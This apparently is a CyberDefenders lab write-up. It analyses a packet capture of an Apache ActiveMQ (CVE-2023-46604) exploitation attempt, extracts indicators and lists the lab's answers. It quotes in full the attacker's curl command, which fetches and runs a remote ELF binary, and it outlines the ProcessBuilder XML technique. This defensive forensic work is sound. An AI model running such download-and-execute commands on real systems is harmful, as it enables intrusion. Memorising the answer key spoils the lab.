








# OpenWire Lab – Network Forensics

## Overview

This investigation focuses on analyzing a network packet capture (PCAP) to identify and reconstruct suspicious activity targeting a public-facing server.

The investigation was conducted as part of the CyberDefenders SOC Analyst Tier 2 – OpenWire lab. The primary objective was to examine network communications, identify suspicious infrastructure, inspect application-layer traffic, and determine whether the observed activity was consistent with exploitation of Apache ActiveMQ.

The analysis was performed using Wireshark, focusing on protocol statistics, IPv4 and TCP conversations, endpoint analysis, and TCP stream inspection.

## Scenario

The SOC received an escalation from Tier 1 regarding a public-facing server generating suspicious outbound network connections to external IP addresses.

Following incident response procedures, the server was isolated, and a network traffic capture was provided for further investigation.

The objective was to:

- Identify the suspicious external hosts.
- Determine which service was targeted.
- Inspect the network traffic for exploitation attempts.
- Reconstruct the attack sequence.
- Identify downloaded payloads and related infrastructure.
- Extract Indicators of Compromise (IOCs).
- Assess the available evidence and determine the extent of the observed activity.

## Investigation Environment

**Lab:** CyberDefenders – OpenWire  
**Category:** Network Forensics  
**Difficulty:** Medium  
**Primary Tool:** Wireshark  
**Evidence Source:** PCAP file

## PCAP Analysis

### 1. Protocol Hierarchy Analysis

The investigation started by examining the Protocol Hierarchy Statistics in Wireshark.

This provided an overview of the protocols present in the captured traffic and helped identify protocols requiring further investigation.

**Key observations:**

| Protocol | Packets | Bytes |
|---|---:|---:|
| TLS | 1,687 | 4,567,432 |
| Malformed Packet | 852 | 0 |
| HTTP | 6 | 1,088 |
| OpenWire | 2 | 466 |
| XML | 2 | 1,632 |
| Data | 30 | 41,999 |

The capture contained 4,889 frames with a total size of 4,929,108 bytes.

TLS represented the majority of the captured traffic by volume. However, encrypted traffic alone is not sufficient to establish malicious activity.

The two OpenWire packets were particularly relevant because OpenWire is associated with Apache ActiveMQ communication.

**Finding:** The protocol statistics identified OpenWire, HTTP, XML, and TLS traffic as areas requiring deeper inspection.

### 2. IPv4 Conversations Analysis

The IPv4 Conversations statistics were reviewed to identify the most active communicating hosts.

Three main IP conversations were observed:

| Source / Host A | Destination / Host B | Packets | Bytes |
|---|---|---:|---:|
| 84.239.49.16 | 134.209.197.3 | 12 | 712 |
| 134.209.197.3 | 128.199.52.72 | 10 | 1,210 |
| 146.190.21.92 | 134.209.197.3 | 4,867 | 4,927,186 |

The IP address `134.209.197.3` appeared in all three conversations and was identified as the central server in the observed communication pattern.

The largest conversation involved:

- `134.209.197.3`
- `146.190.21.92`

This communication contained 4,867 packets and approximately 4.9 MB of traffic.

**Finding:** `146.190.21.92` was identified as the primary suspicious external host requiring further investigation.

### 3. TCP Conversations Analysis

TCP Conversations were examined to identify the individual connections, destination ports, traffic direction, and associated TCP stream indexes.

The following connections were identified:

| Source | Destination | Port | TCP Stream |
|---|---|---:|---:|
| 146.190.21.92 | 134.209.197.3 | 61616 | 0 |
| 134.209.197.3 | 146.190.21.92 | 8000 | 1, 2 |
| 134.209.197.3 | 128.199.52.72 | 80 | 3 |
| 134.209.197.3 | 146.190.21.92 | 443 | 4 |

Port `61616` was particularly important because it is commonly associated with Apache ActiveMQ and its OpenWire protocol.

The connection was therefore selected for further investigation.

**Finding:** TCP Stream 0 provided a relevant connection involving port 61616, which was consistent with the ActiveMQ service investigated in this lab.

### 4. IPv4 Endpoints Analysis

The IPv4 Endpoints statistics were reviewed to understand the traffic distribution between the identified hosts.

| IP Address | Packets | Bytes | Transmitted Bytes | Received Bytes |
|---|---:|---:|---:|---:|
| 84.239.49.16 | 12 | 712 | 388 | 324 |
| 128.199.52.72 | 10 | 1,210 | 789 | 421 |
| 134.209.197.3 | 4,889 | 4,929,108 | 257,226 | 4,671,882 |
| 146.190.21.92 | 4,867 | 4,927,186 | 4,670,705 | 256,481 |

The endpoint statistics showed a significant amount of traffic transmitted from `146.190.21.92` toward `134.209.197.3`.

This supported prioritizing the communication between these two hosts for deeper analysis.

**Finding:** The endpoint statistics reinforced the importance of investigating the communication between the target server and `146.190.21.92`.

### 5. OpenWire and Service Investigation

TCP Stream 0 was inspected using Wireshark's Follow TCP Stream feature.

The connection involved:

| Field | Value |
|---|---|
| Source IP | 146.190.21.92 |
| Source Port | 47284 |
| Destination IP | 134.209.197.3 |
| Destination Port | 61616 |
| Protocol Context | OpenWire / Apache ActiveMQ |




Port `61616` is commonly used by Apache ActiveMQ for OpenWire communication.

The investigation identified Apache ActiveMQ as the vulnerable service associated with the attack scenario.

**Finding:** The network evidence pointed to an Apache ActiveMQ service exposed on TCP port 61616.

### 6. XML Payload Analysis

Further investigation of the HTTP traffic revealed a request for:

`GET /invoice.xml HTTP/1.1`

The server responded with:

`HTTP/1.0 200 OK`

The response contained an XML configuration using the following Java class:

`java.lang.ProcessBuilder`

The XML included:

- A Spring bean definition.
- A `ProcessBuilder` object.
- An initialization method configured to start the process.
- A Bash command intended to download and execute a remote file.

The relevant command was:

```bash
curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker
```

This command attempts to:

1. Download a file named `docker` from `128.199.52.72`.
2. Save the downloaded file to `/tmp/docker`.
3. Change its permissions to make it executable.
4. Attempt to execute `./tmp/docker`.

**Important Evidence Note:**

The download location is `/tmp/docker`, while the execution path is `./tmp/docker`.

These are not necessarily the same location. The second path is relative to the current working directory.

Therefore, the XML demonstrates an execution attempt, but the PCAP alone does not establish that the downloaded file was successfully executed.

**Finding:** The XML payload contained a command consistent with an attempt to retrieve and execute a remote Linux binary.

### 7. Payload Download Investigation

The HTTP traffic was then examined for the requested executable.

A request was identified:

```http
GET /docker HTTP/1.1
Host: 128.199.52.72
User-Agent: curl/7.68.0
Accept: */*
```

The server returned:

```http
HTTP/1.0 200 OK
Content-type: application/octet-stream
Content-Length: 250
```

The response payload began with:

```text
.ELF
```

The ELF signature identifies the Linux Executable and Linkable Format.

The HTTP request used `curl/7.68.0`, which is consistent with the download command found in the XML configuration.

**Key observations:**

- The requested file was named `docker`.
- The remote host was `128.199.52.72`.
- The HTTP response returned status `200 OK`.
- The response contained a 250-byte payload.
- The payload began with an ELF signature.

**Finding:** The packet capture confirmed that the remote server returned an ELF-format payload in response to the download request. This does not independently prove successful execution on the target.

### 8. TLS Communication Analysis

TCP Stream 4 was examined to understand the large communication between:

- `146.190.21.92:443`
- `134.209.197.3:43400`

The conversation contained approximately 4.9 MB of traffic and lasted around 294 seconds.

One inspected packet showed:

| Field | Value |
|---|---|
| Source | 146.190.21.92:443 |
| Destination | 134.209.197.3:43400 |
| TCP Payload | 126 bytes |
| Protocol | TLS |
| TCP Flags | PSH, ACK |

The target server subsequently sent a TCP ACK packet with no application payload.

This confirms TCP-level acknowledgment of the received segment. However, because the TLS payload is encrypted, its application-level contents could not be established from this packet alone.

**Finding:** A substantial TLS communication was observed between the two hosts. Its encrypted contents could not be classified as command-and-control or data exfiltration based only on the available packet evidence.

## Attack Chain Reconstruction

Based on the observed network evidence, the following sequence was reconstructed:

1. Communication was observed between the external host `146.190.21.92` and the target server `134.209.197.3`.
2. Traffic involving TCP port `61616` was identified, consistent with Apache ActiveMQ / OpenWire.
3. The investigation identified an XML payload referencing `java.lang.ProcessBuilder`.
4. The XML contained a Bash command intended to retrieve a remote executable.
5. The target requested `/docker` from `128.199.52.72`.
6. The remote server returned an ELF-format payload.
7. Additional TLS communication was observed between the target and `146.190.21.92`.

The evidence is consistent with an exploitation attempt involving Apache ActiveMQ and a subsequent payload retrieval operation.

However, the available PCAP does not independently prove successful payload execution, reverse-shell establishment, or data exfiltration.

## Vulnerability Identification

The investigation scenario is associated with:

**CVE-2023-46604 – Apache ActiveMQ Remote Code Execution**

The vulnerability involves unsafe handling of serialized OpenWire data that can allow an attacker to trigger class instantiation and achieve remote code execution under vulnerable conditions.

The XML evidence containing `java.lang.ProcessBuilder` is consistent with the exploitation technique described in the lab.

## Indicators of Compromise (IOCs)

| Type | Value | Context |
|---|---|---|
| Primary External IP | `146.190.21.92` | Main suspicious communication |
| Secondary External IP | `128.199.52.72` | Hosted the downloaded payload |
| Target Server IP | `134.209.197.3` | Central server in the observed traffic |
| Additional IP | `84.239.49.16` | Low-volume communication |
| Target Service Port | `61616` | Apache ActiveMQ / OpenWire context |
| HTTP Port | `8000` | XML payload retrieval |
| HTTP Port | `80` | Executable download |
| HTTPS Port | `443` | Encrypted communication |
| Requested XML File | `invoice.xml` | XML configuration containing ProcessBuilder |
| Downloaded File | `docker` | ELF-format payload |
| Download Command | `curl -s -o /tmp/docker ...` | Observed in XML |

## Lab Questions – Answers

| Question | Answer |
|---|---|
| Q1 – Primary C2 IP | `146.190.21.92` |
| Q2 – Exploited Service Port | `61616` |
| Q3 – Vulnerable Service | `Apache ActiveMQ` |
| Q4 – Second C2 IP | `128.199.52.72` |
| Q5 – Executable Name | `docker` |
| Q6 – Java Class Invoked by XML | `org.springframework.context.support.ClassPathXmlApplicationContext` |
| Q7 – CVE | `CVE-2023-46604` |

## Key Findings

- Identified `134.209.197.3` as the central server in the observed network conversations.
- Identified suspicious communication involving `146.190.21.92`.
- Observed traffic involving TCP port `61616`, associated with Apache ActiveMQ / OpenWire.
- Identified an XML configuration referencing `java.lang.ProcessBuilder`.
- Recovered a Bash command intended to download and execute a remote file.
- Identified `128.199.52.72` as the host serving the requested executable.
- Observed an HTTP 200 response containing a 250-byte ELF-format payload named `docker`.
- Associated the lab scenario with CVE-2023-46604.
- Identified additional encrypted TLS communication requiring further investigation.

## SOC Assessment

**Assessment:** Suspicious activity consistent with an Apache ActiveMQ exploitation attempt and remote payload retrieval.

The PCAP provides evidence of the XML configuration delivery and the subsequent HTTP payload response.

However, successful execution of the downloaded binary and the establishment of a reverse shell were not independently confirmed by the available network evidence.

Additional host-based investigation would be required, including:

- Process execution analysis.
- Filesystem examination.
- Shell history and command execution artifacts.
- Process and network connection correlation.
- Malware static or dynamic analysis.

## Recommended SOC Response

1. Maintain isolation of the affected server until the investigation is complete.
2. Preserve the original PCAP and relevant host evidence.
3. Investigate the Apache ActiveMQ version and patch status.
4. Search endpoint telemetry for the downloaded file and related process execution.
5. Review connections to the identified external IP addresses.
6. Search for additional affected systems communicating with the same infrastructure.
7. Apply the appropriate security updates for CVE-2023-46604.
8. Document confirmed findings separately from unverified hypotheses.

## Skills Demonstrated

- Network Forensics
- Wireshark Analysis
- PCAP Investigation
- Protocol Hierarchy Analysis
- IPv4 Conversations Analysis
- TCP Conversations Analysis
- Endpoint Statistics
- TCP Stream Inspection
- OpenWire Protocol Investigation
- Apache ActiveMQ Security
- HTTP Traffic Analysis
- XML Payload Analysis
- Java ProcessBuilder Investigation
- ELF File Identification
- IOC Extraction
- Attack Chain Reconstruction
- CVE Research
- Evidence-Based SOC Assessment
- Incident Response

## Conclusion

This investigation demonstrated a structured network forensic workflow for examining suspicious communications involving a public-facing server.

The analysis began with protocol statistics and conversation analysis to identify the most relevant hosts and network connections. Further investigation of TCP Stream 0 revealed traffic associated with port 61616, which is commonly used by Apache ActiveMQ and OpenWire.

The HTTP investigation uncovered an XML configuration referencing `java.lang.ProcessBuilder` and containing a Bash command intended to retrieve and execute a remote file. Subsequent packet analysis identified a request to `128.199.52.72` for a file named `docker`, followed by an HTTP response containing an ELF-format payload.

The investigation also identified substantial encrypted TLS communication between the target server and `146.190.21.92`. Since the TLS contents were encrypted, their exact application-level purpose could not be established from the inspected evidence.

Overall, the available network evidence was consistent with an Apache ActiveMQ exploitation attempt associated with CVE-2023-46604 and a subsequent payload retrieval operation.

An important forensic distinction remains: observing a command and receiving a payload do not, by themselves, prove that the payload executed successfully. Further endpoint investigation would be necessary to confirm execution and determine the full impact of the incident.

This case highlights the importance of correlating network artifacts, understanding application-layer protocols, and maintaining a clear distinction between observed evidence and investigative conclusions.
